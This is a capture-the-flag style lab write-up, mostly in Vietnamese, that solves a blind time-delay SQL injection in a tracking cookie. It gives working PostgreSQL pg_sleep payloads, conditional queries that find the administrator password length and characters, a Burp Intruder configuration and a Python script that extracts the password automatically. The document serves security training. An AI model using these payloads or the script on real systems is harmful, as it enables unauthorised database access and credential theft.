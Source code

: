 # Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:

Theo tiêu đề của lab, chúng ta sẽ thực hiện tấn công SQL mà kết quả trở về có độ trễ. Từ đó ta có thêm thời gian thực thi câu lệnh SQL để thực hiện các cuộc tấn công khác.

Goal của chúng ta là cần inject query đối với time delays thích hợp.

Cheat sheet, time-delay mà lab đưa ví dụ khá là nhiều cho các version database. Vì ko biết sử dụng cái nào mình phải mò từng cái

```
Oracle: dbms_pipe.receive_message(('a'),10)
Microsoft: WAITFOR DELAY '0:0:10'
PostgreSQL: SELECT pg_sleep(10)
MySQL: SELECT sleep(10) 
```

# Solution:

```
SELECT trackingId FROM someTable WHERE trackingId = 'vvv' || (<CODE HERE>) || ''
```

**vvv là giá trị của cookie**

Kí tự đầu tiên được inject vào là `'` sau `vvv`, sau đó mình nối với output của code. Tiếp theo là nối với `'`. Đối với Oracle và PostgreSQL, `||` được sử dụng để ghép nối, với Microsoft `+` và  MySQL là `khoảng trắng`.

Đồi với PostgreSQL inject `'||(SELECT pg_sleep(10))||'`, query cần thời gian giải để hoàn thành: 10.241s. Thường thì đối với mình, query mất khoảng 240millis.Vậy thêm 10 đến từ việc inject

![image](https://user-images.githubusercontent.com/115911041/234800969-b0ba8d28-7555-4c02-94a4-c91e27544904.png)


## Xác định tên table và column cũng như là username:

Bây giờ ta đã biết database đang chạy version nào, bước tiếp theo:

- Xác định table `users` có tồn tại hay không

- Xác định columns `username` và `password`

- Tìm Entry của username `administrtor`

Mình đã giảm xuống delay đến 3 secs để cho nó tiện hơn.

`'||(SELECT pg_sleep(3) FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802100-7a17b2a6-0262-4c8f-bfb1-40b98f5e3d28.png)

`'||(SELECT pg_sleep(3)||username||password FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802664-9461a3b5-b35c-49a8-b45d-fcddb8035404.png)

`'||(SELECT pg_sleep(3)||username||password FROM users WHERE username='administrator')||'`

![image](https://user-images.githubusercontent.com/115911041/234802886-5d458454-fe78-47af-9dce-7e6013a61514.png)

Cả 3 query đều hơn 3 secs, trong khi sử dụng các tên table khác nhau hoặc cột hoặc sử dụng tên username, thì phản hồi có ngay.

Vậy table có tồn tại với column `username` và `password`, bao gồm entry cho `administrator` như là username.

## Xác định độ dài của password

```
'SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- 
```

Nếu có tồn tại username  `administrator` và độ dài của chuỗi password > 1 thì khi đó, kết quả trả về sẽ có độ trễ.

![image](https://user-images.githubusercontent.com/115911041/235216254-c7662cbe-9f7d-4dd6-a168-1ce1eb14720d.png)

![image](https://user-images.githubusercontent.com/115911041/235216375-731a14d0-67e8-4b9f-bb39-95817bc22adf.png)

![image](https://user-images.githubusercontent.com/115911041/235216474-37fa7754-dd1d-4eab-963a-ae1efe8e1c58.png)

Vậy độ dài của password là 20

# Liệt kê password

Để liệt kê password thì khá đơn giản, chỉ bằng cách kiểm tra từng kí tự của passowrd thay vì độ dài. Mình sử dụng resource pool cũ giống ở trên

`'||(SELECT pg_sleep(3) FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'`

![image](https://user-images.githubusercontent.com/115911041/235217181-7192945f-2b07-42a5-9351-772297509ffa.png)

Sử dụng Burp Intruder, Attack Type: **Cluster bomb**

Payload 1: numeric

Payload 2: brute force

![image](https://user-images.githubusercontent.com/115911041/235286093-e926ec6d-f5f6-4758-81e4-d26a879bcf4e.png)

`password:ecei5oyr7agz3f1acqgc`

Đăng nhập lại

![image](https://user-images.githubusercontent.com/115911041/235286183-e45db7d8-eefd-43e5-8004-d4ecceb51c72.png)

# Script python
```
import requests
import string
from requests.exceptions import Timeout

characters = list(string.ascii_lowercase)
characters += list(string.digits)
url = "" #Target URL
length = 20
result = ''

print("[+] Extract Info")

for i in range(1, length+1):
    for char in characters:
        payload = "a'%%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,%i,1)='%s')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--" %(i, char)
        print("Tring Number %i with: " %(i), char)
        cookie = {"TrackingId":payload}
        try:
            requests.get(url, cookies=cookie , timeout=5)
        except Timeout:
            result += char
            break

    print("[+] Result is : ", result)
```


